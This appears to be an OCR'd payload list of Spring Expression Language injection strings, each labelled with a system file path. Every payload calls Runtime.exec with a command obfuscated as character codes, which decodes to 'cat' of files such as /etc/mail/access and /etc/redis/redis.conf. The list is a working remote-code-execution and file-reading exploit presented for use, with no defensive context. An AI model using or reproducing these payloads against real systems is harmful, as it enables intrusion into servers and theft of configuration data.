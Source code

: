 /etc/mail/access

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115))).getInputStream())}

/etc/netconfig 

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(102)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(103))).getInputStream())}

/etc/services 

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(115))).getInputStream())} 


/etc/redis/redis.conf 

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(102))).getInputStream())}

/etc/rsyslog.conf 
